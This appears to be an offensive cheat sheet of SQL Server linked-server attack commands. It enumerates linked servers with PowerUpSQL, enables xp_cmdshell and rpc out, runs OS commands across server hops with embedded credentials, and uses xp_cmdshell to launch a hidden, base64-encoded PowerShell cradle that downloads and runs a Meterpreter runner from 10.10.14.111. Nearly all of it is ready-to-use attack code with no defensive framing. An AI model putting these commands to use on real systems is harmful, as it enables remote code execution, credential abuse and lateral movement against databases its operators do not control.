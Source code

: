 Not all users can see all links
```powershell
select * from master..sysservers; (SQL Query)

exec sp_linkedservers; (SQL Query)

get-sqlserverlinkcrawl -instance "cywebdw\sqlexpress" -username webapp11 -password 89543dfGDFGH4d (PowerUpSQL Query)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "select * from openquery(""m3sqlw.m3c.local"",'select * from master..sysservers')" (PowerUpSQL Open Query)
```
#### Value of xp_cmdshell
```powershell
select * from sys.configurations where name='xp_cmdshell' (SQL Query)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "select * from sys.configurations where name ='xp_cmdshell'" (PowerUpSQL Query)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "select * from openquery (""m3sqlw.m3c.local"",'select * from sys.configurations where name=''xp_cmdshell''')" (PowerUpSQL OpenQuery)
```
#### Enable xp_cmdshell
```powershell
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

exec xp_cmdshell 'whoami'; (SQL Query)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;EXEC master.dbo.xp_cmdshell 'whoami';"  (PowerUpSQL Query)

get-sqlquery -instance "web06\sqlexpress" -query "exec ('sp_configure ''show advanced options'', 1; reconfigure; exec sp_configure ''xp_cmdshell'', 1; reconfigure;') AT sql03; exec('xp_cmdshell ''hostname'';') at SQL03" -username sa -password Passw0rd  (1 hop PowerUpSQL Query)
```
#### xp_cmdshell Meterpreter Shell
```bash
echo -en 'IEX ((new-object net.webclient).downloadstring("http://10.10.14.111/runner64.txt"))' | iconv -t UTF-16LE | base64 -w 0 (Encode Payload)

exec xp_cmdshell 'powershell -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADEAMQAvAHIAdQBuAG4AZQByADYANAAuAHQAeAB0ACIAKQApAA==' (SQL Query)

Invoke-SQLOSCmd -Instance "CYWEBDW\SQLEXPRESS" -Command "powershell -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADEAMQAvAHIAdQBuAG4AZQByADYANAAuAHQAeAB0ACIAKQApAA== " -RawResults  (PowerUpSQL Query 1)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "EXEC('xp_cmdshell ''powershell -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADEAMQAvAHIAdQBuAG4AZQByADYANAAuAHQAeAB0ACIAKQApAA== '' ; ' ) " (PowerUpSQL Query 2)

get-sqlquery -instance "CYWEBDW\SQLEXPRESS" -query "EXEC('xp_cmdshell ''powershell -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADEAMQAvAHIAdQBuAG4AZQByADYANAAuAHQAeAB0ACIAKQApAA== '' ; ' )AT [m3sqlw.m3c.local]" (1 hop PowerUpSQL query)
````
#### Enable rpcout
```sql
execute as login='sa'; exec sp_serveroption 'sql03', 'rpc out', 'true'; (SQL Query)
```